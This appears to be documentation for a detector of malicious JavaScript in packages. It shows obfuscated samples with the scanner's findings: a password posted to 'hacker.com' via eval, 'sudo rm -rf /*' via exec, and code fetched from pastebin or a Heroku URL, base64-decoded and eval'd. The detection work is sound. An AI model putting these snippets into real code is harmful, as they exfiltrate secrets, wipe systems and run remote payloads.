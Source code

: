 # 1 Keyword disguise
## 1.1 Concatenated String
```
var url_part_1 = 'h' + 't' + 't' + 'p' // <--- disguised http keyword
var url_part_2 = ['api.github', '.com/repos'].join('')
var address = url_part_1 + url_part_2;
var r = http.request({
    hostname: address,
    port: 8080,
    method: "POST",
    path: "/" + t,
}, function() {});
```
Result: 
```
- Found data exchange in:
http.request({
    hostname: address,
    port: 8080,
    method: "POST",
    path: "/" + t,
}, function() {})
```

## 1.2 Encoded String
```
var e = Buffer.from(e, "hex").toString()
var r = http.request({
    hostname: e,
    port: 8080,
    method: "POST",
    path: "/" + t,
}, function() {});
```
Result:
```
- Found data exchange & encoded string in:
http.request({
    hostname: e,
    port: 8080,
    method: "POST",
    path: "/" + t,
}, function() {})
```

# 2 Command Injection
## 2.1 Hardcoded code string

**Execute js code**

```
eval('http.post("hacker.com", {"pwd": pwd})')
```
Result:
```
- Found powerful function in:
eval('http.post("hacker.com", {"pwd": pwd})')
```

**Execute shell command**
```
exec('sudo rm -rf /*', (err, stdout, stderr) => {
});
```
Result:
```
- Found powerful function in:
exec('sudo rm -rf /*', (err, stdout, stderr) => {
})
```


## 2.2 Encoded code string
```
var a = 'asdfbakl2347198ebfkjdasfae' // <--- malicious code
var decoded_a = Buffer.from(a, "hex").toString()
eval(decoded_a)
```
Result:
```
- Found powerful function & encoded string in:
eval(decoded_a)
```


## 2.3 Code from http response
**Plain string**
```
https.get(
    {
        hostname: "pastebin.com",
        path: "/raw/XLeVP82h",
    },
    r => {
        r.on("data", c => {
            eval(c);  // <--- malicious code here
        });
    }
)
```
Result: 
```
- Found data exchange & powerful function in:
https.get(
    {
        hostname: "pastebin.com",
        path: "/raw/XLeVP82h",
    },
    r => {
        r.on("data", c => {
            eval(c);  // <--- malicious code here
        });
    }
)
```

**With Encoding**
```
try {
    https.get("https://updatecheck.herokuapp.com/check", res => res.on("data", d => {
        try {
            eval((atob || (e => "" + Buffer.from(e, "base64")))("" + d))
        } catch (e) {}
    }))
} catch (e) {}
```
Result: 
```
- Found data exchange & powerful function & encoded string in:
https.get("https://updatecheck.herokuapp.com/check", res => res.on("data", d => {
    try {
        eval((atob || (e => "" + Buffer.from(e, "base64")))("" + d))
    } catch (e) {}
}))
```

# 3 Name alias
```
var o = http
function i(e, t, n) {
    e = 'http://google.com';
    var r = o.request({ // <---- aliased variable
        hostname: e,
        port: 8080,
        method: "POST",
        path: "/" + t,
    }, function() {});
}
```
Result:
```
- Found data exchange in:
o.request({ // <---- aliased variable
        hostname: e,
        port: 8080,
        method: "POST",
        path: "/" + t,
    }, function() {})
```
